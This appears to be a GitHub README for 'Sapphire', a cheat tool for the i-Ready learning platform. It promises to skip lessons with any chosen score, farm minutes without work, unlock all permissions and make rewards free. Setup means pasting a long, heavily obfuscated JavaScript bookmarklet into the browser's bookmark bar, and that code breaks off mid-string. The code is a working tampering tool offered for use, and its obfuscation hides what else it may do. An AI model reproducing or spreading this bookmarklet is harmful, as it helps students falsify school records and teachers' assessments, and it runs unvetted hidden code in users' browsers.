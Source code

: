 # Full credits to preston aiden messenger for the lesson skipper & minute farmer used in this hack.

<p align="center">
<img width="212" height="212" src="https://github.com/Sapphire-Inc/Sapphire/blob/a66e83abf4f082891288f00388a2c9ba4c36d41b/icon.png"/>
</p>

<p align="center">
Welcome to Sapphire, the best i-Ready hack to date.<br><br>
With this hack you can completely remove the stress that comes with doing i-Ready lessons and breeze through your lessons with ease.
</p>

<h2 align="center">Features</h2>

- **Lesson Skipper**: Skip through lessons with any score that you choose without having to complete the lesson.
- **Minute Farmer**: Obtain minutes without having to spend any time on the lesson while having i-Ready open in the background.
- **Enable all permissions**: Enable full access to all features within i-Ready such as learning games, rewards, etc.
- **Free Games**: Makes all rewards cost 0 coins allowing you to play games for free.

<h2 align="center">How to setup the hack.</h2>
<ol>
    <li>Toggle your bookmark bar by pressing <code>Ctrl + Shift + B</code> at the same time on your keyboard. If this doesn't work for you, find an alternative way on Google.</li>
    <li>Right-click an empty space on the bookmark bar and click "Add page".</li>
    <li>In the URL field paste in the bookmark code:<br>
        <pre><code>javascript:void%20function(){function%20wodfbG4(gqsYGxv){return%20c7bg1Q2[-88%3EgqsYGxv%3FgqsYGxv+37:-58%3EgqsYGxv%3F-58%3EgqsYGxv%3F-58%3CgqsYGxv%3FgqsYGxv+94:-58%3EgqsYGxv%3F-58%3CgqsYGxv%3FgqsYGxv-58:-58%3EgqsYGxv%3F-58%3CgqsYGxv%3FgqsYGxv-71:gqsYGxv+87:gqsYGxv-58:gqsYGxv+91:gqsYGxv+82:gqsYGxv-27]}function%20VJ3Wito(c7bg1Q2,gqsYGxv){return%20Object.defineProperty(c7bg1Q2,%22length%22,{value:gqsYGxv,configurable:!0}),c7bg1Q2}function%20Zbyy0m(){try{return%20global||window||new%20Function(%22return%20this%22)()}catch(e){try{return%20this}catch(e){return{}}}}function%20NFIhU8(...gqsYGxv){var%20yJbuoe4=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-98%3EgqsYGxv%3FgqsYGxv-59:-98%3CgqsYGxv%3F-68%3CgqsYGxv%3FgqsYGxv-11:-68%3CgqsYGxv%3FgqsYGxv+48:gqsYGxv+97:gqsYGxv+16],1);return%20typeof(gqsYGxv.length=yJbuoe4(-93),gqsYGxv.e0ndfE=gqsYGxv[0]),%22undefined%22!=typeof%20D_xE7rG%26%26D_xE7rG%3Fnew%20D_xE7rG().decode(new%20u457kSb(gqsYGxv.e0ndfE)):%22undefined%22!=typeof%20G50XPAt%26%26G50XPAt%3FG50XPAt.from(gqsYGxv.e0ndfE).toString(%22utf-8%22):bHK_Oj8(gqsYGxv.e0ndfE)}function%20cOjySPZ(...gqsYGxv){var%20D_xE7rG=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-9%3CgqsYGxv%3F-9%3CgqsYGxv%3F-9%3CgqsYGxv%3FgqsYGxv+8:gqsYGxv+87:gqsYGxv+93:gqsYGxv-27],1);switch(typeof(gqsYGxv.length=1,gqsYGxv[D_xE7rG(7)]=38,gqsYGxv[D_xE7rG(19)]=fRPLwmU(91),gqsYGxv[2]=fRPLwmU[D_xE7rG(2)](wodfbG4(-81),[gqsYGxv[wodfbG4(-72)]+34]),gqsYGxv[3]=fRPLwmU(65),gqsYGxv[gqsYGxv[144]-(gqsYGxv[D_xE7rG(7)]-4)]=fRPLwmU[wodfbG4(-77)](void%200,[50]),gqsYGxv[wodfbG4(-65)]=[fRPLwmU(gqsYGxv[144]-(gqsYGxv[wodfbG4(-72)]-49)),fRPLwmU(49),fRPLwmU(D_xE7rG(8))],gqsYGxv[D_xE7rG(-5)]={WAlRDE:fRPLwmU[D_xE7rG(2)](void%200,[41]),LOBZuK:fRPLwmU(54),CzS2NgJ:fRPLwmU(57),RyiPeXR:fRPLwmU(62),o4mqVHz:fRPLwmU(70)},gqsYGxv.T0UKzFk=fRPLwmU(38),gqsYGxv[8]=fRPLwmU(gqsYGxv[144]-3),gqsYGxv[9]=fRPLwmU(wodfbG4(-80)),gqsYGxv.PZzlp3=fRPLwmU(29),gqsYGxv[gqsYGxv[144]-27]=D_xE7rG(-2)),gqsYGxv[0]){case-80%3Cgm7NiX9.ZcAKhwn%3F-604:D_xE7rG(-2):gqsYGxv[gqsYGxv[D_xE7rG(7)]-27]=fRPLwmU[D_xE7rG(2)](void%200,[wodfbG4(-70)])||Jvka6e7[fRPLwmU(D_xE7rG(9))];break;case-wodfbG4(-69):return%20lveDxmA[fRPLwmU(29)]||Jvka6e7[gqsYGxv.PZzlp3];case%20wodfbG4(-68):return%20lveDxmA[vhiZu34]||Jvka6e7[fRPLwmU(30)];case-wodfbG4(-71):gqsYGxv[gqsYGxv[144]-(gqsYGxv[144]-11)]=gqsYGxv[9]||Jvka6e7[Oz6bwi.kybxeW];break;case%20349:return%20lveDxmA[fRPLwmU(gqsYGxv[144]-6)]||Jvka6e7[fRPLwmU(32)];case%20198:return%20lveDxmA[fRPLwmU(D_xE7rG(16))]||Jvka6e7[fRPLwmU(33)];case%20747:return%20lveDxmA[fRPLwmU(34)]||Jvka6e7[fRPLwmU(34)];case%204443:gqsYGxv[D_xE7rG(3)]=gqsYGxv[8]||Jvka6e7[Oz6bwi.W_5Z9m+%22on%22];break;case%204337:gqsYGxv[gqsYGxv[144]-27]=fRPLwmU(gqsYGxv[144]-1)||Jvka6e7[fRPLwmU(37)];break;case%203499:return%20lveDxmA[gqsYGxv.T0UKzFk]||Jvka6e7[PoqJaj4];case-80%3Cgm7NiX9.ZcAKhwn%3F2976:-17:gqsYGxv[wodfbG4(-76)]=fRPLwmU(39)||Jvka6e7[fRPLwmU(39)];break;case%203182:gqsYGxv[D_xE7rG(3)]=A0fZOq||Jvka6e7[gqsYGxv[D_xE7rG(-5)].WAlRDE+fRPLwmU(42)+fRPLwmU(43)];break;case%20gm7NiX9.aj79foI()%3F2289:D_xE7rG(17):gqsYGxv[D_xE7rG(3)]=fRPLwmU(44)+fRPLwmU(45)||Jvka6e7[fRPLwmU(46)];break;case%20gm7NiX9.aj79foI()%3F14:-21:return%20lveDxmA[fRPLwmU[wodfbG4(-77)](void%200,[47])]||Jvka6e7[fRPLwmU(47)];case%20gm7NiX9.Jnj75T_()%3F3553:211:gqsYGxv[wodfbG4(-76)]=fRPLwmU[wodfbG4(-79)](D_xE7rG(-2),wodfbG4(-66))+D_xE7rG(12)||Jvka6e7[fRPLwmU(D_xE7rG(13))+%22nt%22];break;case-80%3Cgm7NiX9.ZcAKhwn%3F1144:-63:gqsYGxv[11]=gqsYGxv[wodfbG4(-65)][D_xE7rG(-8)]||Jvka6e7[gqsYGxv[5][D_xE7rG(-4)]];break;case%202604:gqsYGxv[wodfbG4(-76)]=fRPLwmU(50)||Jvka6e7[gqsYGxv[gqsYGxv[144]-34]];break;case-80%3Cgm7NiX9.ZcAKhwn%3F4618:-132:return%20lveDxmA[fRPLwmU(51)]||Jvka6e7[fRPLwmU(51)];case%20469:gqsYGxv[11]=fRPLwmU(D_xE7rG(15))||Jvka6e7[fRPLwmU(D_xE7rG(15))];break;case%20gqsYGxv[gqsYGxv[wodfbG4(-72)]+D_xE7rG(18)]+3368:gqsYGxv[wodfbG4(-76)]=fRPLwmU.apply(D_xE7rG(-2),[53])||Jvka6e7[fRPLwmU[wodfbG4(-79)](void%200,53)];break;case%20517:gqsYGxv[11]=gqsYGxv[gqsYGxv[144]-32].LOBZuK||Jvka6e7[tGjQWA];break;case%201619:gqsYGxv[wodfbG4(-76)]=fRPLwmU(55)||Jvka6e7[fRPLwmU(56)+%22on%22];break;case%20gqsYGxv[D_xE7rG(7)]+3048:return%20lveDxmA[gqsYGxv[gqsYGxv[144]-D_xE7rG(16)][2]]||Jvka6e7[gqsYGxv[6].CzS2NgJ];case%20gm7NiX9.aj79foI()%3FgqsYGxv[D_xE7rG(7)]+2704:118:return%20lveDxmA[fRPLwmU.apply(wodfbG4(-81),[58])]||Jvka6e7[fRPLwmU(58)];case%20gqsYGxv[wodfbG4(-72)]+2950:return%20lveDxmA[fRPLwmU(59)]||Jvka6e7[fRPLwmU(59)];case%20gm7NiX9.aj79foI()%3F2209:172:gqsYGxv[11]=cIgtvcT[wodfbG4(-83)]||Jvka6e7[fRPLwmU(60)];break;case%201051:gqsYGxv[wodfbG4(-76)]=fRPLwmU(61)||Jvka6e7[gqsYGxv[D_xE7rG(-5)].RyiPeXR+fRPLwmU.call(void%200,wodfbG4(-85))];break;case%20gm7NiX9.aj79foI()%3F720:-118:gqsYGxv[wodfbG4(-76)]=fRPLwmU(D_xE7rG(17))||Jvka6e7[gqsYGxv[gqsYGxv[wodfbG4(-72)]-35]+fRPLwmU(66)+%22or%22];break;case%20gm7NiX9.Jnj75T_()%3F4226:110:return%20lveDxmA[fRPLwmU(67)]||Jvka6e7[fRPLwmU(68)+fRPLwmU(69)];case%20gm7NiX9.Jnj75T_()%3F1201:66:gqsYGxv[11]=gqsYGxv[gqsYGxv[144]-(gqsYGxv[wodfbG4(-72)]-6)].o4mqVHz||Jvka6e7[fRPLwmU(70)];break;case%202037:gqsYGxv[gqsYGxv[wodfbG4(-72)]-27]=fRPLwmU(71)||Jvka6e7[fRPLwmU(71)];break;case%204842:gqsYGxv[11]=fRPLwmU(72)||Jvka6e7[gqsYGxv[2]];break;case%20gm7NiX9.Jnj75T_()%3F2302:-(gqsYGxv[144]-14):return%20lveDxmA[fRPLwmU(gqsYGxv[D_xE7rG(7)]+35)]||Jvka6e7[fRPLwmU(gqsYGxv[144]+35)];case%20163:return%20lveDxmA[fRPLwmU(gqsYGxv[gqsYGxv[D_xE7rG(7)]+wodfbG4(-61)]+36)]||Jvka6e7[fRPLwmU(75)+fRPLwmU.apply(void%200,[76])+%22l%22];case%201055:return%20lveDxmA[fRPLwmU(77)+fRPLwmU(78)]||Jvka6e7[fRPLwmU(79)];case%20gm7NiX9.aj79foI()%3F3506:-(gqsYGxv[144]+164):return%20lveDxmA[fRPLwmU(80)]||Jvka6e7[fRPLwmU(80)];case%2039:return%20lveDxmA[fRPLwmU[wodfbG4(-79)](D_xE7rG(-2),81)+fRPLwmU(gqsYGxv[D_xE7rG(7)]+44)+%22sk%22]||Jvka6e7[fRPLwmU(83)];case%20815:return%20lveDxmA[fRPLwmU(D_xE7rG(-7))]||Jvka6e7[fRPLwmU(wodfbG4(-86))];case%204584:return%20lveDxmA[hKWXIT0+%22te%22]||Jvka6e7[fRPLwmU[D_xE7rG(2)](D_xE7rG(-2),[86])];case%20717:return%20lveDxmA[fRPLwmU(87)]||Jvka6e7[fRPLwmU(87)];case%205200:gqsYGxv[11]=cIgtvcT[2]||Jvka6e7[fRPLwmU(gqsYGxv[wodfbG4(-72)]+50)];break;case-80%3Cgm7NiX9.ZcAKhwn%3F1073:-(gqsYGxv[wodfbG4(-72)]+197):return%20lveDxmA[fRPLwmU(89)]||Jvka6e7[fRPLwmU(gqsYGxv[144]-(gqsYGxv[D_xE7rG(7)]-89))];case%20gm7NiX9.ZcAKhwn%3E-(gqsYGxv[wodfbG4(-72)]+42)%3FgqsYGxv[144]+4142:125:return%20lveDxmA[fRPLwmU(90)]||Jvka6e7[fRPLwmU.apply(void%200,[90])];case%20gm7NiX9.aj79foI()%3FgqsYGxv[wodfbG4(-72)]+3562:-202:gqsYGxv[wodfbG4(-76)]=fRPLwmU.call(D_xE7rG(-2),gqsYGxv[144]+53)||Jvka6e7[gqsYGxv[wodfbG4(-60)]];}if(gqsYGxv[gqsYGxv[wodfbG4(-72)]+106]%3EgqsYGxv[D_xE7rG(7)]+130)return%20gqsYGxv[gqsYGxv[D_xE7rG(7)]-134];var%20u457kSb=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-36%3CgqsYGxv%3F-6%3EgqsYGxv%3F-6%3CgqsYGxv%3FgqsYGxv+45:-6%3CgqsYGxv%3FgqsYGxv+44:-6%3EgqsYGxv%3F-36%3EgqsYGxv%3FgqsYGxv+15:gqsYGxv+35:gqsYGxv+23:gqsYGxv+83:gqsYGxv-42],1);return%20lveDxmA[gqsYGxv[u457kSb(-24)]]||Jvka6e7[gqsYGxv[11]]}function%20_18eSmz(gqsYGxv){var%20D_xE7rG=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-47%3EgqsYGxv%3F-47%3CgqsYGxv%3FgqsYGxv+36:-47%3CgqsYGxv%3FgqsYGxv-30:-47%3EgqsYGxv%3F-77%3CgqsYGxv%3F-77%3EgqsYGxv%3FgqsYGxv-20:-47%3CgqsYGxv%3FgqsYGxv+25:gqsYGxv+76:gqsYGxv-75:gqsYGxv-82:gqsYGxv-29],1);const%20u457kSb=%22ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!%23$%25%26()*+,./:;%3C=%3E%3F%40[]^_`{|}~\%22%22,G50XPAt=%22%22+(gqsYGxv||%22%22),yJbuoe4=G50XPAt.length,E3N75UI=[];let%20bHK_Oj8=wodfbG4(-87),hKWXIT0=wodfbG4(-87),tGjQWA=-1;for(let%20A0fZOq=D_xE7rG(-76);A0fZOq%3CyJbuoe4;A0fZOq++){var%20PoqJaj4=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[73%3CgqsYGxv%3F73%3EgqsYGxv%3FgqsYGxv-39:103%3EgqsYGxv%3F73%3EgqsYGxv%3FgqsYGxv+73:73%3EgqsYGxv%3FgqsYGxv+59:73%3EgqsYGxv%3FgqsYGxv-4:73%3CgqsYGxv%3F103%3EgqsYGxv%3F103%3EgqsYGxv%3FgqsYGxv-74:gqsYGxv+91:gqsYGxv+64:gqsYGxv-20:gqsYGxv-55:gqsYGxv-31],1);const%20vhiZu34=u457kSb.indexOf(G50XPAt[A0fZOq]);if(vhiZu34!==-PoqJaj4(78))if(tGjQWA%3CPoqJaj4(74))tGjQWA=vhiZu34;else{var%20EkeB8w=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[40%3CgqsYGxv%3FgqsYGxv+64:10%3EgqsYGxv%3FgqsYGxv-17:10%3EgqsYGxv%3FgqsYGxv-30:10%3EgqsYGxv%3FgqsYGxv+54:40%3EgqsYGxv%3FgqsYGxv-11:gqsYGxv-34],1);void(tGjQWA+=91*vhiZu34,bHK_Oj8|=tGjQWA%3C%3ChKWXIT0,hKWXIT0+=88%3C(8191%26tGjQWA)%3F13:14);do%20typeof(E3N75UI.push(255%26bHK_Oj8),bHK_Oj8%3E%3E=PoqJaj4(102),hKWXIT0-=wodfbG4(-59));while(7%3ChKWXIT0);tGjQWA=-EkeB8w(15)}}return%20tGjQWA%3E-D_xE7rG(-72)%26%26E3N75UI.push(255%26(bHK_Oj8|tGjQWA%3C%3ChKWXIT0)),NFIhU8(E3N75UI)}function%20fRPLwmU(c7bg1Q2,gqsYGxv,D_xE7rG,u457kSb=_18eSmz,G50XPAt=MYjS9GS){return%20D_xE7rG%3FgqsYGxv[MYjS9GS[D_xE7rG]]=fRPLwmU(c7bg1Q2,gqsYGxv):(gqsYGxv%26%26([G50XPAt,gqsYGxv]=[u457kSb(G50XPAt),c7bg1Q2||D_xE7rG]),gqsYGxv%3Fc7bg1Q2[G50XPAt[gqsYGxv]]:MYjS9GS[c7bg1Q2]||(D_xE7rG=(G50XPAt[c7bg1Q2],u457kSb),MYjS9GS[c7bg1Q2]=D_xE7rG(A6Twwm[c7bg1Q2])))}function%20Kiid84(){return[0,84,63,6,1,18,void%200,31,%22call%22,10,%22apply%22,11,12,15,20,144,57,28,346,732,%22nt%22,48,5,52,33,64,106,%22PreT_aq%22,8]}function%20m3yPSyQ(c7bg1Q2,gqsYGxv){var%20D_xE7rG=function(){return%20c7bg1Q2(...arguments)};return%20Object.defineProperty(D_xE7rG,%22length%22,{value:gqsYGxv,configurable:!0}),D_xE7rG}var%20c7bg1Q2,gqsYGxv,D_xE7rG,u457kSb,G50XPAt,yJbuoe4,E3N75UI,bHK_Oj8,hKWXIT0,tGjQWA,A0fZOq,PoqJaj4,vhiZu34,EkeB8w,l3yV9zv,cIgtvcT,Oz6bwi,p3n0km7,Hgut65,gm7NiX9;c7bg1Q2=Kiid84.call(this);var%20MYjS9GS=[],Hxt2bEW=wodfbG4(-87),A6Twwm=m3yPSyQ((...gqsYGxv)=%3E{var%20D_xE7rG=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-32%3EgqsYGxv%3F-62%3EgqsYGxv%3FgqsYGxv+32:-62%3CgqsYGxv%3F-32%3CgqsYGxv%3FgqsYGxv+37:-62%3EgqsYGxv%3FgqsYGxv+62:-32%3EgqsYGxv%3FgqsYGxv+61:gqsYGxv+66:gqsYGxv-72:gqsYGxv-80],1);return%20gqsYGxv.length=D_xE7rG(-61),gqsYGxv[D_xE7rG(-60)]=gqsYGxv.fhDtzr,!(gqsYGxv[84]=m3yPSyQ(gqsYGxv=%3E{for(var%20D_xE7rG,u457kSb,c7bg1Q2=16;0==c7bg1Q2%254;c7bg1Q2++)u457kSb=0,gqsYGxv=gqsYGxv.concat(m3yPSyQ(()=%3E{var%20D_xE7rG;if(u457kSb++,1===u457kSb)return[];for(D_xE7rG=74;D_xE7rG;D_xE7rG--)gqsYGxv.unshift(gqsYGxv.pop());return[]},0)());for(D_xE7rG=46;D_xE7rG;D_xE7rG--)gqsYGxv.unshift(gqsYGxv.pop());return%20gqsYGxv},1)([%22[i/2s)%40Yg%23c.B%22,%22arU=i%3EueG%22,%22EE0=f,3B%22,%22EE0=f,F*2$9/B%22,%228DVKa%22,%22Y2~zT%22,%22vzbgN:8eG%22,%22Q5zg7=YC%22,%22_q.Je,]%40G%22,%22=7U==[${lT%22,%22=7U==[cC%22,%22tG%3Ef]*yC%22,%22gzzgh`A%22,%22vz.Jn`A%22,%22kz0=r%40A%22,%22X,jg/w*N2T5%22,%22X,jg/wuC%22,%22prFK%22,%22}Oufp%40\%22%40s!1HwbRnXB%22,%22}Oufp%40UC%22,%227Jmfh%40uC%22,%22%25DU=c,+MM%25`+B%22,%22%25DU=c,vB%22,%22[z/2c%22,%227!zI;w*N2T5%22,%22ePVKH:we2$,/B%22,%22=imfo%40s0W$8%26PyO%22,%22eP(gz=!eKUGv*E%22,%22=imfo%40i%40r%25%40+pQKm%22,%22=imfo%403B%22,%22r5_1b^MC%22,%22eP(g%3E%3CkC%22,%22hM+f=[UC%22,%22eP(g%3E%3Cwe8!\%22ui9M%22,%22=imfo%40):W$Rz%40P_oKB%22,%22d8mfg,%23B%22,%222J0=%40[MC%22,%22d8mfg,e0rR(%26hQ0oQB%22,%2232kdL3A%22,%2232%23c7=cC%22,%2232%23c7=:Y%3CR%22,%22~OVK%22,%228D%40J%22,%22CPH%3C86%26YH%22,%22CPH%3Co2MCH%22,%22W,52e%3EiC%22,%22gDCz$uFN%408iw(]nf%40lk=3%23.SG$F6r+bpH%23h.l/rB%22,%22}t=aG*A%22,%22c,42[hU07U4ENQ5qp:A2YvAe%234O]5kG%22,%22RJa;\%22t/N!4E6B%22,%22i:z.``I6$Pi%3Cna+l{i,%3C(%3F|`hJfHf]yof2M3N[iC%22,%22lz]I)wJB0TQY$b1o[ig/%3F3uChS%22,%22R8b.F[DZD$[4+NFSul+,;!oo%401A.F_}cJMB281gC%22,%22,qHJ7=MSq!z%3CXyra{/Q%3EQ%22,%22XPU=%3E[aC%22,%22dP(gt%40mCmUW6GF%22,%22]DwJb%22,%22l5VKR[9`aI$%26.P;m;ZAxf,6YfVsxO99Qjr2f7=A%22,%22,z_1Z%22,%22,X,%3C:Wy{2$%40%23,a,l.I01/WT[G$9t08jLGE$JO%3EmCcS,/%23myU%25qC=(.H[P1%3F%23Z9Win,2,e%3E.{C$q3N.4P\%22ye3/Wzvx%236tH^Qn)l01z;eGR%23S6=EHn7J^IY%40%26YwS90ix9jsoB%22,%22{zYJg,A%22,%22~ZB2w)we$yd6mx%26kbGdE[hGM7F40k^$k%3E]uZ[hRdAG=598DMDSzg_%3CrN8y+/fy8jbGN%3Cr%40eeKUet3^;mG=;Ci%3EP1r%25!%26gbeLoaIh3+bBn%25L)zC_Q9\%22B9Akm:;C5p|Ly%23;44beLs%3C%3Cve%3EFZ3$Q]lB:U+_/.}/tNN!60(C%22,%22l5VKR[9`aI$%26.P;m;ZAxf,6YfVsxO99Qw5dKc,_YfI}uGF3iDEFKeh!{W$y%22,%22fP1Kd%22,%22dP%40Jv)ceG%22,%22K2)1O:}Y%25y|+58DMl5VKR[9`aI901.%3FijrdKL:EIL%25h%25L^rm+LG3%23:Mum$lw1YYiurbKY%3CGI8!T%3C`%40PiWutanl;%3FnRL;3mdQ42Dwhq^RsRb6{x|VK2)1O:}Y%25y|+58DMl5VKR[9`aI901.%3FijrdKL:EIL%25h%25L^rm+LG3%23:Mum$lw1YYiurbKY%3CGI8!T%3C`%40toHu%40JM:6eOId.C*QV}1)1O:}Y~Ko%26H^cj%26`B%22,%22ar$Jg,_Yj8Z%25Q^\%22p%22,%22brWf~%3CUC%22,%22qaNKj%3EN1H%22,%22c8NK86QIr%25y%22,%22}1(g7+UC%22,%22r5PEt)wC%22,%22+Gbgo%40SC%22,%22CXbge,A%22,%22;i_1[[A%22,%22brWf~%3C\%22%40qU%22,%22RP)=l/A%22,%22DSzg_%3CUC%22,%225a$Jf%3E4C%22,%22nrNKr2JTc%25j3pE%22,%22ar%252L:7;G%22,%22jrWf=[${lT%22,%22jrWf=[cC%22,%22f5bgY%22,%22e5/2Y%22,%229on%3C`*MC%3CR%22,%22toX%3C5+ges74EO9wn3o_1%40[A%22,%22toX%3C5+UC%22,%220z|/W%3EkC%22,%22nrTg6=yC%22,%22[i/2s)iC%22,%22nX,%3Cc%22])),(Hxt2bEW%3FgqsYGxv[D_xE7rG(-60)].pop():Hxt2bEW++,gqsYGxv[84])},0)();gqsYGxv=Zbyy0m()||{},D_xE7rG=gqsYGxv.TextDecoder,u457kSb=gqsYGxv.Uint8Array,G50XPAt=gqsYGxv.Buffer,yJbuoe4=gqsYGxv.String||String,E3N75UI=gqsYGxv.Array||Array,bHK_Oj8=m3yPSyQ(()=%3E{var%20D_xE7rG,u457kSb,gqsYGxv=new%20E3N75UI(128);return%20D_xE7rG=yJbuoe4.fromCodePoint||yJbuoe4.fromCharCode,!(u457kSb=[]),m3yPSyQ(G50XPAt=%3E{function%20hKWXIT0(G50XPAt){return%20c7bg1Q2[55%3CG50XPAt%3F55%3CG50XPAt%3F85%3EG50XPAt%3F55%3EG50XPAt%3FG50XPAt-25:G50XPAt-56:G50XPAt-79:G50XPAt-22:G50XPAt+47]}var%20E3N75UI,bHK_Oj8,tGjQWA,A0fZOq;for(E3N75UI=G50XPAt.length,!(u457kSb.length=hKWXIT0(56)),bHK_Oj8=hKWXIT0(56);bHK_Oj8%3CE3N75UI;){if(A0fZOq=G50XPAt[bHK_Oj8++],127%3E=A0fZOq)tGjQWA=A0fZOq;else%20if(223%3E=A0fZOq){var%20PoqJaj4=m3yPSyQ(G50XPAt=%3Ec7bg1Q2[66%3EG50XPAt%3F66%3CG50XPAt%3FG50XPAt-41:66%3EG50XPAt%3F66%3EG50XPAt%3F36%3CG50XPAt%3F36%3EG50XPAt%3FG50XPAt-2:36%3CG50XPAt%3F36%3CG50XPAt%3F66%3EG50XPAt%3FG50XPAt-37:G50XPAt+61:G50XPAt-40:G50XPAt+90:G50XPAt+86:G50XPAt+6:G50XPAt-70:G50XPAt-6],1);tGjQWA=(A0fZOq%26wodfbG4(-80))%3C%3CPoqJaj4(40)|63%26G50XPAt[bHK_Oj8++]}else%20if(239%3E=A0fZOq){var%20vhiZu34=m3yPSyQ(G50XPAt=%3Ec7bg1Q2[-44%3CG50XPAt%3F-14%3EG50XPAt%3FG50XPAt+43:G50XPAt+87:G50XPAt+51],1);tGjQWA=(A0fZOq%26vhiZu34(-30))%3C%3C12|(G50XPAt[bHK_Oj8++]%26wodfbG4(-85))%3C%3C6|63%26G50XPAt[bHK_Oj8++]}else%20if(yJbuoe4.fromCodePoint){var%20EkeB8w=m3yPSyQ(G50XPAt=%3Ec7bg1Q2[37%3EG50XPAt%3FG50XPAt+71:67%3CG50XPAt%3FG50XPAt+48:67%3EG50XPAt%3F37%3EG50XPAt%3FG50XPAt+74:37%3EG50XPAt%3FG50XPAt-75:67%3CG50XPAt%3FG50XPAt-4:37%3CG50XPAt%3F67%3EG50XPAt%3FG50XPAt-38:G50XPAt-23:G50XPAt-7:G50XPAt+56],1);tGjQWA=(7%26A0fZOq)%3C%3CwodfbG4(-82)|(G50XPAt[bHK_Oj8++]%26hKWXIT0(58))%3C%3C12|(63%26G50XPAt[bHK_Oj8++])%3C%3CwodfbG4(-84)|G50XPAt[bHK_Oj8++]%26EkeB8w(40)}else%20tGjQWA=63,!(bHK_Oj8+=3);u457kSb.push(gqsYGxv[tGjQWA]||(gqsYGxv[tGjQWA]=D_xE7rG(tGjQWA)))}return%20u457kSb.join(%22%22)},1)},0)(),!VJ3Wito(NFIhU8,wodfbG4(-83)),typeof(hKWXIT0=fRPLwmU(85),tGjQWA=fRPLwmU(54),A0fZOq=fRPLwmU.apply(wodfbG4(-81),[40]),PoqJaj4=fRPLwmU(38),vhiZu34=fRPLwmU(30),EkeB8w=fRPLwmU(19),l3yV9zv=fRPLwmU(wodfbG4(-82)),cIgtvcT=[fRPLwmU.apply(wodfbG4(-81),[16]),fRPLwmU(60),fRPLwmU[wodfbG4(-79)](wodfbG4(-81),88)],Oz6bwi={Ze39T_f:fRPLwmU(wodfbG4(-75)),kybxeW:fRPLwmU(wodfbG4(-80)),W_5Z9m:fRPLwmU[wodfbG4(-77)](void%200,[36])},p3n0km7=fRPLwmU(wodfbG4(-76)),Hgut65=fRPLwmU(9),gm7NiX9=m3yPSyQ(()=%3E{var%20c7bg1Q2={AYX0G4l:[],aj79foI:m3yPSyQ((c7bg1Q2=fRPLwmU[wodfbG4(-79)](wodfbG4(-81),wodfbG4(-59)))=%3E(gm7NiX9.t9Ebd9[0]||gm7NiX9.t9Ebd9.push(-77),gm7NiX9.t9Ebd9[c7bg1Q2]),0),Jnj75T_:m3yPSyQ((c7bg1Q2=fRPLwmU(8))=%3E(gm7NiX9.AYX0G4l[0]||gm7NiX9.AYX0G4l.push(-85),gm7NiX9.AYX0G4l[c7bg1Q2]),0),t9Ebd9:[],ZcAKhwn:35};return%20c7bg1Q2},0)());var%20lveDxmA,Jvka6e7,yfCzIF=function(){function%20u457kSb(gqsYGxv){return%20c7bg1Q2[81%3EgqsYGxv%3FgqsYGxv-1:111%3EgqsYGxv%3F81%3EgqsYGxv%3FgqsYGxv-59:111%3CgqsYGxv%3FgqsYGxv-48:81%3CgqsYGxv%3FgqsYGxv-82:gqsYGxv-78:gqsYGxv-85]}var%20gqsYGxv,D_xE7rG;return%20typeof(gqsYGxv=function(){try{return%20window||global||new%20Function(Hgut65)()}catch(e){return%20D_xE7rG[fRPLwmU(wodfbG4(-78))](this)}},D_xE7rG=function(){try{return%20this}catch(e){return%20null}}),Jvka6e7=D_xE7rG[fRPLwmU(u457kSb(91))](this,cOjySPZ),lveDxmA=gqsYGxv[fRPLwmU(u457kSb(91))](this)}[fRPLwmU(10)]();(async()=%3E{function%20u457kSb(gqsYGxv){return%20c7bg1Q2[127%3EgqsYGxv%3F127%3CgqsYGxv%3FgqsYGxv+57:97%3CgqsYGxv%3F97%3CgqsYGxv%3F127%3CgqsYGxv%3FgqsYGxv-68:127%3CgqsYGxv%3FgqsYGxv-80:127%3CgqsYGxv%3FgqsYGxv+23:127%3CgqsYGxv%3FgqsYGxv-40:127%3CgqsYGxv%3FgqsYGxv+80:gqsYGxv-98:gqsYGxv-76:gqsYGxv-26:gqsYGxv-72]}var%20gqsYGxv,D_xE7rG;if(gqsYGxv=[fRPLwmU[wodfbG4(-77)](wodfbG4(-81),[22]),fRPLwmU(26),fRPLwmU(27)],!(D_xE7rG={jBJ